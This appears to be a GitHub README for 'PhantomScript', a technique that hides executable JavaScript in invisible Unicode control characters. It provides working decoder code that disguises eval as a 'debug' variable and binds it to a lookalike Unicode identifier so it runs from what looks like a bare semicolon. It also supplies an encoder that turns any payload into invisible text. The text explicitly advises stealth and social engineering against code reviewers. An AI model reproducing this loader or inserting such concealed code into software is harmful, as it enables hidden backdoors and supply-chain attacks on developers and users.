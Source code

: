 ![](https://raw.githubusercontent.com/jagracey/PhantomScript/020172df875ae4dacac9f719228f7746ad34b98b/resources/phantomScript.jpg)


### A better way to execute arbitrary invisible code using a little social engineering.
Once the decoder script is added, the following allows for invisible code execution.
`ꓼ('')`

Add in the decoder script:


```javascript
/* Hide these variables somewhere up top in the code. The debug variable is basically eval. Log var provides a friendly name. */
var debug = String.apply.constructor;


/* Here is the core decoder functionality. Notice the friendly looking names like debug and log. */
var temp_debug = function(val){
  var debugTarget = []
  .map
  .call(val, x=>x.charCodeAt())
  .filter( x=> (x <= 8) || (x >= 11 && x <= 31) || ( x >= 127 && x <= 159) )
  .map(x=>{
    if (x > 126) x-= 95;
    if (x > 10) x-=2;
    return x;
  })
  .reduce((x,cur,i,v)=> i%2? x + String.fromCharCode((v[i-1] << 5) + cur) : x,'');
  debug( debugTarget )();
};


/* Somewhere near the bottom we name the function with a stealthy Unicode character. Remove global/window as needed. */
this.\u{A4FC} = temp_debug;
```



Now you can execute invisible code with what seems like nothing but a semicolon.  Non zero-width characters are filtered out for maximum stealth.



### How is this possible?
It's actually quite easy to save data with invisible, zero-width characters in Unicode. I've only included the invisible characters from the ASCII range of characters, but there are certainly many more in the 1.1(?) million Unicode characters from the many Astrals.

The harder and more critical work is the social engineering aspect. ECMAScript 6 has made a big push for internationalizing characters, and as such now permits unicode in variable names using [Unicode Code Point Escape Sequences](https://mathiasbynens.be/notes/javascript-escapes).

Any Unicode character that has been designated with the property of [ID_START](https://codepoints.net/search?IDS=1) can be used at the beginning of a variable name.  Any character with the designated property of [ID_CONTINUE](https://codepoints.net/search?IDC=1)

Here are some valid variable names.
 - `ꓸ`   `\u{A4F8}`
 - `ꓹ`   `\u{A4F9}`
 - `ꓼ`   `\u{A4FC}`
 - `ꓽ`   `\u{A4FD}`




```javascript
var encode = function(payload){

  var convert2Ascii = function(text){
    return Array
    .from(text)
    .map(function(char){
      if ( /[^\x00-\x7F]/g.test(char) ){
        return char
        .split('')
        .map(x=>`\\u{${ (x.charCodeAt()).toString(16) }}`)
        .join('');
      }
      return char;
    });
  };

  var mapping = function(char){
    if (char > 8)  char+= 2;
    if (char > 31) char+= 95;
    return char;
  };

  var mapCharacters = function(text){
    return text
    .split('')
    .map(x=>x.charCodeAt())
    .map(x=>{
      var low  = mapping( x & 0x1F);
      var high = mapping( x >> 5  );
      return String.fromCharCode(high, low);
    })
    .join('');
  };

  return mapCharacters( convert2Ascii(payload).join('') );
};
```



### Limitations
Many font packages do not support the characters you wish to use, representing characters as boxes. That'll be a giveaway.  Try and stick to the lower numbered characters.


### More Reading
You can learn more about astral code points on Mathias Bynen's [blog](https://mathiasbynens.be/notes/javascript-unicode)
